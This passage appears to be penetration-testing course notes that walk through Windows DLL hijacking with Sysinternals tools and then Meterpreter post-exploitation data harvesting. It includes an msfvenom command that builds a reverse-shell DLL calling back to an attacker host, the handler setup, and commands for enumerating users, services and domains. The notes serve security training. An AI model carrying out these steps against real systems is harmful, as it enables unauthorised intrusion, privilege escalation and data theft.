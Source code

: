 Now, everytime we want to connect back on this machine, we just need to set up the Handler module with the provied IP address and port, since this backdoor will persist even after a reboot.

### DLL Hijacking - Video

Process Explorer tool (present in the Microsoft Sysinternals Suite):
`Select Columns->User Name->OK`: to help us identifying a privilege process (`NT AUTHORITY\SYSTEM`).
`Select Columns->Image Path->OK`: to help us identifying the binary path.

Process Monitor tool (present in the Microsoft Sysinternals Suite):
It provides us information about what the operating system is doing in real time: registry key accesses, threads being created, images being loaded.
`Filter (CTRL+L)`: to add filters, `Process Name is RegSrvc.exe`, `Add`, `OK`.

We can use the Windows Services applet to stop and start the target service.

In the Process Monitor tool, we can see that when the service starts, many DLLs are loaded. In the `Result` column we can see many DLLs are not found (`NAME NOT FOUND`). This are a mark for understand the DLLs loading order.
We can exploit this mechanism to insert a malicious DLL in one of the directories the OS tried to access the service DLL without success.
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=1234 -f dll -o payload64.dll`: to create the malicious DLL, now we need to copy the malicious DLL to the choosen directory, changing its name to `CRYPTBASE.dll`.

Let's create the handler for the payload: `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 1234`, `exploit -j`: to execute the Handler in the background.

Now, we just need to stop and start the target service to get a Meterpreter session.
In the Process Explorer tool we can see that `RegSrvc.exe` service has spawn a `rundll32.exe` child process, and into its properties we can see that it has TCP connection established with our attacker machine.

### Pillaging - Study Guide

(03/72) *Data Harvesting aka Pillaging* is the step in which access sensitive data and intellectual property if the target organization. Get as much information as we can: system info, applications, services, networks, documents, messaging.

`sysinfo`: get basic information about the system. `shell`, `systeminfo`: to get more information (software and hardware) about the system.
`getuid`: check current user privileges.
`run post/windows/gather/enum_services`: to get a list of all the services running on the target machine.
Remember that the post exploitation modules can be also configured and used outside the Meterpreter session.
Note that we can obtain the same results using a well-defined set of proper OS commands (e.g. `wmic service get Caption,StartName,State,PathName`).
`ps`: to get a list of all the processes running on the target machine.

`net view /domain`, `run post/windows/gather/enum_domains`: to get the domain and the domain controller names.
`net user` (Windows) and `cat /etc/passwd` (Linux): to get a list of the users on the system.
`net localgroup`: to get all the available groups, `net localgroup <GroupName>`: to get all the users belonging to a specific group.
`net share` or `run enum_shares`: to see all the resources shared.
